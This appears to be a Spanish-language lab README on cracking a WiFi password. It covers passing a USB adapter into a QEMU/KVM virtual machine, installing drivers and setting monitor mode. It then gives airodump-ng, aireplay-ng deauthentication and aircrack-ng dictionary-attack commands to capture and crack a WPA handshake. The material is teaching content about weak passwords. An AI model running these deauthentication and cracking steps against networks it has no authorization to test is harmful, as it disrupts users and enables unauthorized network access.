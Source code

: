 # Pentesting Wifi

En esta practica demostraremos lo "sencillo" que puede resultar sacar con fuerza bruta una contraseña WiFi si esta no es segura.

## Configuración MV

El primero de los pasos sería configurar el entorno virtual de forma que podamos utilizar el adaptador de red USB para posteriormente ponerlo en modo monitor.

En esta ocasión hemos utilizado QEMU/KVM y la configuración de este apartado es tan fácil como agregar el XML con el puntero de que dispositivo USB es el que queremos conectar:

```xml
<hostdev mode="subsystem" type="usb" managed="yes">
  <source>
    <vendor id="0x2357"/>
    <product id="0x010c"/>
    <address bus="3" device="6"/>
  </source>
  <alias name="hostdev0"/>
  <address type="usb" bus="0" port="4"/>
</hostdev>
```

De esta forma la máquina ya será capaz de detectar el nuevo adaptador inalámbrico.

![usb](img/0%20usb.png)

## Drivers

La instalación de los drivers es un paso un poco tricky ya que debemos buscar los drivers del chip de nuestro adaptador en este caso un [rtl8188eus](https://github.com/drygdryg/rtl8188eus) agregar la excepción a la lista negra y compilarlos, tras reiniciar la máquina podremos poner el adaptador en modo monitor.

**Ejemplo de script de instalación**
![drivers](img/2%20drivers.png)

**Adaptador configurado**
![adapter](img/1%20adaptador.png)

## Preparación

Una vez tengamos nuestro super adaptador debemos ponerlo en modo monitor, de esta forma el chip no trabajará como un adaptador de red normal sino que será capaz de sacar mucha mas información de la que de normal puede extraer. En mi caso el adaptador tiene un nombre muy largo así que a lo largo me referire al adaptador inalambrico por el nombre generico wlan0, es posible que en tu caso no se llame exactamente igual.

```bash
$sudo ifconfig wlan0 down
$sudo airmon-ng check kill
$sudo iwconfig wlan0 mode monitor
$sudo ifconfig wlan0 up
$iwconfig

#Vemos en mode:monitor
```

![monitor](img/3%20mode%20monitor.png)

**Test modo monitor**

```bash
$sudo aireplay-ng --test wlan0
```

![aireplay](img/4%20test%20airreplay.png)

## Ataque

El ataque consiste en sacar la contraseña del punto de acceso mediante un ataque de diccionario gracias a haber deautenticado a un cliente conectado y haber capturado el handshake.

Lo primero que debemos hacer es conocer las redes que nos rodean con airodump:

```bash
$ airodump-ng <Interfaz ej:wlan0>
```

Luego deautenticar a sus clientes:

![handshake](img/5%20hanshake.png)

```bash
$ aireplay-ng -c <CHANNEL> -a <MACSSID> -w <nombreFichero> <Interfaz ej:wlan0>
or
$ aireplay-ng -0 1 -a <MACSSID> -c <MACCliente> <Interfaz ej:wlan0>
```

![air](img/6%20airdum.png)


Finalmente con el handshake interceptado, crackearlo:

```bash
aircrack-ng -w <DICCIONARIO> -b <MACSSID> <nombreFichero>*.cap
```

![final](img/7%20key found.png)